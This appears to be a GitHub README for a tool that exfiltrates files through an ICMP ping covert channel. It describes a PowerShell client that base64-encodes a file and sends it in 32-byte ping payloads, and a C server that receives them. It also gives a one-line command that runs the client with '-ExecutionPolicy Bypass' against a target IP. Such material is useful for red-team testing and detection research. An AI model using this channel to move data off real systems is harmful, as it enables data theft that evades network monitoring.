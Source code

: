 # Pingtransfer

This is a simple tool to transfer data through a ping covert channel.

Data is injected in the payload part of the ICMP echo packet (see the [Ping RFC Document] for more details):

![ICMP Structure](https://networkdirection.net/dl49?display)

[Ping RFC document]: <https://tools.ietf.org/html/rfc792>

#### PowerShell client:
- Encodes the data in base64
- Create chunks of the size of the default MS Windows ICMP payload (32 Bytes)
- Send each chunk to the server

Usage:
```
powershell.exe -ExecutionPolicy Bypass -File ping-client.ps1 yourtargetip /path/to/your/file
```

#### C Posix server:
- Need a C compiler

Usage:
```
gcc pingserver.c -o pingserver
sudo ./pingserver
```


Special thanks to Pedro Laguna for the idea and the follow up !
Thanks to my team too for their great feedback !

